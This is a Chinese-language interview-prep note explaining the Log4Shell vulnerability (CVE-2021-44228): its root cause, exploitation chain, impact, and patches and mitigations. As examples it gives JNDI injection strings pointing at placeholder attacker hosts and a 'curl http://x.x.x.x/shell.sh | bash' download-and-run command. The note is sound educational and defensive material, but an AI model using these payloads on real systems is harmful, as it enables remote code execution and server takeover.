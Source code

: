 [[log4j-RCE漏洞-笔记.pdf]]


面试：
你可以这样口头描述：

---

**漏洞概述**：  
“Log4j RCE漏洞（CVE-2021-44228，俗称Log4Shell）是Log4j日志框架中的一个远程代码执行漏洞。当应用使用存在漏洞的Log4j版本（≤2.14.1）记录用户输入时，攻击者可以通过构造特殊的恶意字符串（例如`${jndi:ldap://攻击者服务器/恶意类}`），触发Log4j的JNDI解析功能，远程加载并执行攻击者服务器上的恶意代码，最终完全控制目标服务器。”

---

**攻击原理**：

1. **漏洞根源**：Log4j默认支持通过`${}`语法解析动态内容，且未对JNDI（Java命名和目录接口）的远程资源加载做安全限制。
    
2. **利用链**：攻击者提交包含`jndi:ldap/rmi`协议的恶意输入（如HTTP请求头、表单参数等）→ 应用使用Log4j记录该输入 → Log4j解析并请求攻击者控制的LDAP服务器 → 服务器返回指向恶意Java类的地址 → 目标服务器加载并执行该类的代码。
    

---

**核心危害**：

- **影响广泛**：几乎所有依赖Log4j记录用户输入的Java应用（如Web服务、云平台、企业内部系统）均可能被攻击。
    
- **后果严重**：攻击者可直接获取服务器权限、窃取敏感数据、植入后门或横向渗透内网。
    
- **利用门槛低**：漏洞利用简单，甚至通过普通HTTP请求即可触发。
    

---

**修复方案**：

1. **紧急修复**：升级Log4j到安全版本（≥2.15.0），官方后续还提供了2.16.0（禁用JNDI）、2.17.0等版本。
    
2. **临时缓解**：
    
    - 设置JVM参数：`-Dlog4j2.formatMsgNoLookups=true`
        
    - 删除Log4j中`JndiLookup`类文件（手动禁用JNDI功能）。
        
3. **长期防御**：
    
    - 对用户输入的关键字段（如Header、参数）进行字符过滤（如禁止`${`、`jndi:`等关键字）。
        
    - 部署WAF规则拦截JNDI特征请求。
        

---

**补充案例（增强理解）**：  
“例如，攻击者在一个网站的搜索框输入`${jndi:ldap://x.x.x.x/Exploit}`，如果网站用漏洞版本的Log4j记录了搜索关键词，就会触发漏洞。攻击者可以通过LDAP服务器下发恶意类，在目标服务器上执行`curl http://x.x.x.x/shell.sh | bash`这样的命令，直接拿到服务器控制权。”

---

**表达技巧**：

- 先概括漏洞本质（**远程代码执行**），再分步骤解释技术原理，最后用案例辅助理解。
    